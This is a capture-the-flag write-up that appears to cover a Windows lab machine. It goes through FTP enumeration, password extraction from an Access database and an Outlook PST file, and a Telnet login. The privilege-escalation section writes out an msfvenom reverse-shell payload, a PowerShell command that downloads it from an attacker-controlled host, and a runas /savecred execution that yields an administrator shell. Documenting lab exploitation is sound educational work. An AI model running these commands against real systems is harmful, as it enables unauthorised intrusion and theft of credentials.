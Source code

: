 ## Nmap
![](https://i.imgur.com/1jrYzz2.png)

I found a ftp service is running, and next tried to login annoymous.

## FTP
Through the Nmap result, I tried to log in FTP server.

![](https://i.imgur.com/rWyGfbl.png)

In the "Engineer" dir, I found a dir named 'Access Control.zip', that sounds suspicious.
```
$ get "Access Control.zip"
```
In the "Backups" dir, also find a file.
```
$ get "backup.mdb"
```
## backup.mdb
That's see the file, maybe it has something important information, so I use mdb hacking:
```
$ mdb-tables backup.mdb
```
![](https://i.imgur.com/oc3zby7.png)

This is a surprise discovery, We discover a table named "auth_user".
```
$ mdb-export backup.md auth_user
```
![](https://i.imgur.com/Tk6UFZX.png)

Wow, we already get engineer's password!
## Access Control.zip
I tried to analysis the zip, the first thing is unzip it.
```
$ 7z x Access\ Control.zip
```
It need to enter password, I tried to enter the password I found in backup.mdb, success!
unzip it, I found a file named **"Access Control.pst"**.

It's a outlook file, so I use this command to read it:
```
$ readpst "Access Control.pst"
```
Success get "Access Control", I can found a password in that.
```
$ cat "Access Control"
```
![](https://i.imgur.com/7ncNDKQ.png)
## Telnet
Use the account/password from "Access Control" file login.

![](https://i.imgur.com/DX54uPC.png)

In the Desktop, I success found "user.txt".

![](https://i.imgur.com/MOjNGvR.png)
## Root
Finally, at the most difficult level, I tried a lot of ways to get root, and I found the **"runas"** tips from the machine.
I create a reverse shell in the attack machine first.
```
$ msfvenom -p windows/shell/reverse_tcp LHOST=<Your IP> LPORT=<Port> -f exe > shell.exe
```
then use powershell to get the exe file in the victim machine.
```
$ powershell -c (new-object System.Net.WebClient).DownloadFile('http://<Your IP>/shell.exe','C:\Users\security\shell.exe')
```
The final and most important step, use "runas" command to reverse shell.
```
$ runas /savecred /user:Administrator shell.exe
```
In this step, "runas" command had a special attritube named "/savecred", means the password that can be used to log in with the last user preset.
success get the shell in the meterpreter.

![](https://i.imgur.com/oBBPKCP.png)

root flag:

![](https://i.imgur.com/9UogihS.png)
